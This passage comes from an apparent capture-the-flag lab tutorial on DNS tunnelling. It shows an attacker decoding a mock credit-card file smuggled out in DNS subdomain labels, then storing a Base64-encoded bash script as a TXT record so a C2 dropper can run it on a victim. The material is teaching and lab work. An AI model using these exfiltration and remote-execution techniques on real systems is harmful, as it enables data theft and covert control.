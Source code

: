 Once our DNS request is received, we can stop the tcpdump tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64 as follows,

Cleaning and Restoring the Receiving Data  

```markup
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```

Nice! We have successfully transferred the content of the credit.txt over the DNS protocol manually.

## C2 Communications over DNS

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol. We will be using the web interface to add a TXT DNS record to the tunnel.com domain name.

For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXT DNS record of the domain name you control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:  

```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet to test.tunnel.com. Note that the script is an example, which could be replaced with any content. Now save the script to/tmp/script.sh using your favorite text editor and then encode it with Base64 as follows,

Encode the Bash Script as Base64 Representation  

```markup
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```

Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, the tunnel.com. You can add it through the web interface we provide http://10.10.39.16/ or https://10-10-39-16.p.thmlabs.com/ without using a VPN. 

Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of the script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step.   

![DNS Server - Resolving TXT Record](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/38b87cfbbe254bef1e98f0dffa49451f.png)  
